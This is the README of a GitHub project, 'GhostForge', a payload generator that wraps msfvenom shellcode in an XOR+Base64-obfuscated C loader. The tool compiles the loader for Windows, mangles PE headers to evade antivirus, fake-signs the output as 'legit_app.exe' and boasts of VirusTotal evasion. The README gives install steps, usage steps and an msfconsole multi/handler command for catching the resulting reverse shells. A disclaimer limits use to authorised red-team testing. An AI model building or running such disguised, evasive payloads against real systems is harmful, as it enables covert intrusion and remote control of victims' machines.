

# 👻 GhostForge

GhostForge is a customizable payload generation and shellcode obfuscation tool designed for red team research, adversary simulation, and malware evasion analysis. It generates XOR+Base64 encoded shellcode loaders in C, compiles them with `mingw-w64`, and optionally signs them with a fake certificate to improve delivery success.

### Here is an image from virustotal of how the GhostForge is able to perform



### VirusTotal Hash = 4c766532b86772cdb9a36c34c93676609145242e042fdfe423d5ccdb05c509c9

> **⚠️ DISCLAIMER:** This project is intended for **educational and research purposes only**. Do **not** use this tool against systems you do not own or have explicit permission to test. Misuse can be **illegal** and unethical.

---

## 🚀 Features

- Generate shellcode with `msfvenom`
- XOR+Base64 encoding to evade static detection
- C payload loader generator
- Windows PE evasion via `lief` (e.g. header obfuscation, section mangling)
- Optional fake certificate signing using `osslsigncode`
- Supports multiple platforms: Windows, Linux, OSX, Android, PHP, Python, Java

---

## 📦 Requirements

- Linux system (tested on Arch/Manjaro)
- [`msfvenom`](https://docs.metasploit.com/)
- `python3` with:
  - `lief`
- `mingw-w64-gcc` (`x86_64-w64-mingw32-gcc`)
- `osslsigncode`
- `openssl`

### 📥 Install Dependencies (Arch Linux)

```bash
# MSF and osslsigncode
sudo pacman -S metasploit osslsigncode

# Python module
pip install lief==0.16.3

# Cross compiler
paru -S mingw-w64-gcc
```

## 🔧 Usage

```bash
chmod +x ghostforge.sh
./ghostforge.sh
```

- Choose from a list of payloads or input a custom one
- Shellcode will be XOR+Base64 encoded
- A C loader will be generated and compiled to a Windows executable
- PE file will be modified with evasive techniques
- The payload will be fake-signed with a self-signed certificate

### 📁 Output

After completion, you'll find:
```bash
legit_app.exe  # Final obfuscated and signed payload
```

Use msfconsole as the handler:
```bash
msfconsole -qx 'use exploit/multi/handler; set PAYLOAD <your-payload>; set LHOST=<your-ip>; set LPORT=<your-port>; run'
```

## ⚠️ Legal Notice
GhostForge is strictly intended for use in lab environments, red teaming engagements, or penetration testing with appropriate permissions. The developers are not responsible for any damage caused by misuse of this tool.

